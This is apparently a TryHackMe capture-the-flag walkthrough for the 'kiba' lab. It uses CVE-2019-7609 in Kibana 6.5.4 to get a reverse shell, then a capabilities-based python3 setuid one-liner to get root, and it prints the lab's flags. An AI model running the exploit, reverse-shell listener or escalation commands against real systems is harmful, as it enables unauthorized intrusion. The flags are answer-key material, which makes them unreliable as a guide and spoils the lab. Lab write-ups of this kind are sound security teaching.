

# kiba

## Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

## Initial Scan

Let's start with a full port Nmap scan. The scan reveals four open ports:
* 22 ssh
* 80 http
* 5044 lxi-evntsvc
* 5601 esmagent

~~~
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:51 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:48 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:48 GMT
|_    {"statusCode":404,"error":"Not Found"}
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## [Task 1] Flags

Are you able to complete the challenge?

### 1. What is the vulnerability that is specific to programming languages with prototype-based inheritance?

The answer is `Prototype pollution` which is specific to programming languages with prototype-based inheritance.

### 2. What is the version of visualization dashboard installed in the server?

I headed to port 5601 which is hosting Kibana. I went to Management section and the version is there:

Version: `6.5.4`

### 3. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

I searched for this version's vulnerabilities and found [this](https://github.com/LandGrey/CVE-2019-7609) github repository:

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

CVE: `CVE-2019-7609`

### 4. Compromise the machine and locate user.txt

Let's exploit this vulnerability. First I downloaded the python scrip included in the repository. Then I started a listener and then ran the exploit:

~~~
$ ./exploit.py -u http://$IP:5601 -host <YOUR IP> -port 4444 --shell
~~~

Now we have a shell as "kiba":

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/kiba/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.135.116] 43826
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$
~~~

Now we can look for the user flag. It is located in `/home/kiba`:

~~~
kiba@ubuntu:/home/kiba/kibana/bin$ cd /home/kiba
kiba@ubuntu:/home/kiba$ cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
~~~

user.txt: `THM{1s_easy_pwn3d_k1bana_w1th_rce}`

### 5. Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

It is a description on capabilities. No answers needed.

### 6. How would you recursively list all of these capabilities?

Command: `getcap -r /`

### 7. Escalate privileges and obtain root.txt

Let's check the capabilities. (No need to say but I added `2>/dev/null` to filter out the useless results):

~~~
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep  <--------------
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
~~~

We can see a custom python3 installation in `/home/kiba/.hackmeplease/`. I looked it up in [GTFOBins](https://gtfobins.github.io/) and found a command which can gain us the root privileges:

~~~
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
~~~

The first thing I did was spawning a TTY shell using a python one-liner cuz why not. Then I went to `/root` and read the root flag:

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/home/kiba# cd /root
root@ubuntu:/root# cat root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
~~~

root.txt: `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun!

And have a good one! : )
